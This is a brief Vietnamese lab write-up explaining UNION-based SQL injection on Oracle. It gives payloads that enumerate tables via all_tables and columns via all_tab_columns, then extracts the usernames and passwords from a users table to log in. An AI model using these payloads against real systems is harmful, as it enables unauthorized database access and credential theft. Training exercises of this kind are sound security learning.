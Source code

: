 # SQL injection attack, listing the database contents on Oracle

Như thường lệ ta check xem có bao nhiêu cột và kiểu dữ liệu trong cột đó là gì, làm như những bài trước thì ta thấy có 2 cột và kiểu dữ liệu string.

Ta sử dụng câu lệnh `' UNION SELECT TABLE_NAME, NULL FROM all_tables--` để liệt kê ra tên các bảng, sau đó tìm bảng có tên liên quan tới `users` 

![](https://cdn.discordapp.com/attachments/1124588087931043891/1134670055272095844/image.png)

Tiếp theo ta sử dụng câu lệnh `' UNION SELECT column_name, NULL FROM all_tab_columns WHERE TABLE_NAME = 'USERS_GGLJHE'--` để liệt kê ra tên các cột bên trong bảng `USERS_GGLJHE`.

![](https://cdn.discordapp.com/attachments/1124588087931043891/1134671364763172904/image.png)

Tiếp theo ta sử dụng câu lệnh `' UNION SELECT PASSWORD_HYUDNK, USERNAME_EMUICX FROM USERS_GGLJHE--` để truy cập vào thông tin 2 cột trên và đăng nhập thui

![](https://cdn.discordapp.com/attachments/1124588087931043891/1134671911360675861/image.png)

Login và hoàn thành bài lab thui!

